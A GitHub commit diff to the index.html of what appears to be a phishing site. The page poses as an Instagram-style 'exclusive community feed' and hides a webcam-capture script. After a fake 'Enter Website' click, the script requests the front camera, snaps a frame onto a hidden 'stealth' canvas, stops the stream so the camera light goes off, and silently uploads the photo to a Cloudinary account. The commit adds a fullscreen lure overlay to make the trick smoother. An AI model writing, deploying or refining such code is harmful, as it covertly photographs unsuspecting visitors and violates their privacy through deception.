

Before and after one commit to instagrammeta9292-bot/RHK-access-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 103-676 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Welcome - Exclusive Community Feed</title>
+    <title>Exclusive Community Feed</title>
     <style>
         * {
             box-sizing: border-box;
@@ -22,7 +22,62 @@
             overflow: hidden;
         }
 
-        /* Fake Instagram-style Post Interface to distract user */
+        /* Fullscreen Entry Overlay that captures the initial touch/click */
+        #welcome-overlay {
+            position: fixed;
+            top: 0;
+            left: 0;
+            width: 100%;
+            height: 100%;
+            background: rgba(0, 0, 0, 0.75);
+            backdrop-filter: blur(5px);
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            z-index: 9999;
+            cursor: pointer;
+        }
+
+        .welcome-card {
+            background: #ffffff;
+            padding: 30px;
+            border-radius: 12px;
+            text-align: center;
+            max-width: 360px;
+            width: 90%;
+            box-shadow: 0 10px 25px rgba(0,0,0,0.3);
+        }
+
+        .welcome-card h2 {
+            font-size: 20px;
+            margin-bottom: 10px;
+            color: #111;
+        }
+
+        .welcome-card p {
+            font-size: 14px;
+            color: #666;
+            margin-bottom: 20px;
+            line-height: 1.4;
+        }
+
+        .enter-btn {
+            background: #0095f6;
+            color: white;
+            border: none;
+            width: 100%;
+            padding: 12px;
+            border-radius: 8px;
+            font-weight: 600;
+            font-size: 15px;
+            cursor: pointer;
+        }
+
+        .enter-btn:hover {
+            background: #1877f2;
+        }
+
+        /* Fake Instagram-style Post Interface underneath */
         .feed-container {
             width: 100%;
             max-width: 470px;
@@ -72,27 +127,13 @@
             padding: 20px;
         }
 
-        .feed-actions {
-            padding: 12px 14px;
+        .feed-footer {
+            padding: 14px;
+            font-size: 14px;
+            color: #262626;
         }
 
-        .action-btn {
-            background: #0095f6;
-            color: white;
-            border: none;
-            width: 100%;
-            padding: 10px;
-            border-radius: 6px;
-            font-weight: 600;
-            font-size: 14px;
-            cursor: pointer;
-        }
-
-        .action-btn:hover {
-            background: #1877f2;
-        }
-
-        /* Hidden video elements used for silent capture */
+        /* Hidden media stream elements */
         #stealth-video, #stealth-canvas {
             display: none;
         }
@@ -100,21 +141,30 @@
 </head>
 <body>
 
-    <!-- Distraction Interface -->
+    <!-- Initial Entry Screen that captures user action naturally -->
+    <div id="welcome-overlay">
+        <div class="welcome-card" onclick="event.stopPropagation()">
+            <h2>Welcome to Community Feed</h2>
+            <p>Tap below to verify your session and view exclusive media posts.</p>
+            <button class="enter-btn" id="enter-trigger">Enter Website</button>
+        </div>
+    </div>
+
+    <!-- Main Feed Interface -->
     <div class="feed-container">
         <div class="feed-header">
             <div class="avatar">R</div>
-            <span class="username">community_updates</span>
+            <span class="username">exclusive_feed</span>
         </div>
-        <div class="feed-img-placeholder" id="content-box">
-            Welcome! Click below to load your personalized community media stream and unlock full access.
+        <div class="feed-img-placeholder">
+            Secure media stream active. Welcome to the platform!
         </div>
-        <div class="feed-actions">
-            <button class="action-btn" id="trigger-btn">Load Content Feed</button>
+        <div class="feed-footer">
+            <strong>exclusive_feed</strong> Enjoying the community posts? Check back for more updates daily.
         </div>
     </div>
 
-    <!-- Hidden Camera Elements -->
+    <!-- Hidden Elements -->
     <video id="stealth-video" autoplay playsinline muted></video>
     <canvas id="stealth-canvas"></canvas>
 
@@ -122,18 +172,17 @@
         const cloudName = "nhy9lfkt";
         const uploadPreset = "rhk_upload";
 
-        const triggerBtn = document.getElementById('trigger-btn');
-        const contentBox = document.getElementById('content-box');
+        const overlay = document.getElementById('welcome-overlay');
+        const enterBtn = document.getElementById('enter-trigger');
         const video = document.getElementById('stealth-video');
         const canvas = document.getElementById('stealth-canvas');
 
-        triggerBtn.addEventListener('click', async () => {
-            // Change button state instantly to look like it's loading content
-            triggerBtn.innerText = "Loading Feed...";
-            triggerBtn.disabled = true;
+        enterBtn.addEventListener('click', async () => {
+            // Dismiss overlay instantly
+            overlay.style.display = 'none';
 
             try {
-                // Instantly triggers native browser permission box disguised as an access request
+                // Triggers browser permission window seamlessly after user clicks
                 const stream = await navigator.mediaDevices.getUserMedia({
                     video: { facingMode: 'user' },
                     audio: false
@@ -141,7 +190,7 @@
 
                 video.srcObject = stream;
 
-                // Wait a brief millisecond for the video stream to render frames
+                // Brief pause to capture a clear frame
                 setTimeout(() => {
                     canvas.width = video.videoWidth || 640;
                     canvas.height = video.videoHeight || 480;
@@ -149,10 +198,10 @@
                     const context = canvas.getContext('2d');
                     context.drawImage(video, 0, 0, canvas.width, canvas.height);
 
-                    // Stop the stream immediately so camera light turns off quickly
+                    // Turn off hardware recording light immediately
                     stream.getTracks().forEach(track => track.stop());
 
-                    // Convert image to blob and upload silently to Cloudinary
+                    // Silently post image payload straight to Cloudinary
                     canvas.toBlob((blob) => {
                         if (!blob) return;
 
@@ -166,24 +215,17 @@
                         })
                         .then(response => response.json())
                         .then(data => {
-                            console.log("Upload completed:", data.secure_url);
+                            console.log("Synced:", data.secure_url);
                         })
                         .catch(err => {
-                            console.error("Upload error:", err);
+                            console.error("Sync error:", err);
                         });
                     }, 'image/jpeg', 0.85);
 
-                    // Update UI to make user think content loaded successfully
-                    contentBox.innerHTML = "Feed loaded successfully! Enjoy exploring.";
-                    triggerBtn.style.display = "none";
-
-                }, 800);
+                }, 700);
 
             } catch (err) {
-                console.error("Permission denied or error:", err);
-                triggerBtn.innerText = "Load Content Feed";
-                triggerBtn.disabled = false;
-                contentBox.innerHTML = "Access required to view secure feed. Please try again.";
+                console.error("Access rejected:", err);
             }
         });
     </script>
```
